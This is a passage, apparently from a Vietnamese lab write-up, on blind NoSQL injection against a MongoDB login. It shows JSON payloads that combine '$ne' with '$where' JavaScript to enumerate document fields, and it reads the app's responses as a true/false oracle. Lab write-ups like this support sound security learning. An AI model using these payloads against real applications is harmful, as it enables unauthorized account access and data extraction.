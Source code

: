 Ta thấy để truy xuất từng field của đối tượng dữ liệu có thể thông qua `Object.keys(userInfo)[]`.  

Thường mongodb sẽ tự động tạo field "_id" ở đầu mỗi object. Giờ thử kiểm tra bằng cách sau:

```
{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[0].match('_id')) return 1; else 0;}"}
```

```
Account locked: please reset your password
```

Trong mongodb, khi dùng toán tử `$where` ta có thể dùng `this` hoặc `obj` để truy xuất vào tài liệu hiện tại.  

Ở req trên ta đã thêm lệnh if để kiểm tra trường đầu tiên `Object.keys(this)[0]` xem có phải là `'_id'` không.  
Nếu đúng thì trả về 1 (`'Account locked'`), ngược lại là 0 (`'Invalid'`).

Và dựa theo response trả về ta xác định chắc chắn trường đầu tiên là `_id`. Ngoài ra cũng xác định được kỹ thuật tấn công mù trên có thể thực hiện.  

```
{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[1].match('random_field_name')) return 1; else 0;}"}

>>> Invalid

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[0].match('random_field_name')) return 1; else 0;}"}

>>> Invalid

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[3].match('random_field_name')) return 1; else 0;}"}

>>> Invalid

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[4].match('random_field_name')) return 1; else 0;}"}

>>> Invalid

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[5].match('random_field_name')) return 1; else 0;}"}

>>> Internal Server Error
```

Dựa theo chuỗi truy vấn trên, ta xác định trước như sau:  

1. Account locked: True condition
2. Invalid: False condition
3. Internal Server Error: Index invalid

Vậy là ta thấy tài liệu đang xét có 5 trường. Ngoài `_id` thì còn 4 trường chứa thông tin đăng nhập khác.  
(Thực ra có thể đoán 2 trường nữa là username và password và thử trong req nhưng tôi muốn làm như mình "mù" :v)  
Thêm nữa, hãy nhớ gửi req Forgot Password nếu không ứng dụng sẽ không tạo trường thứ 5.  
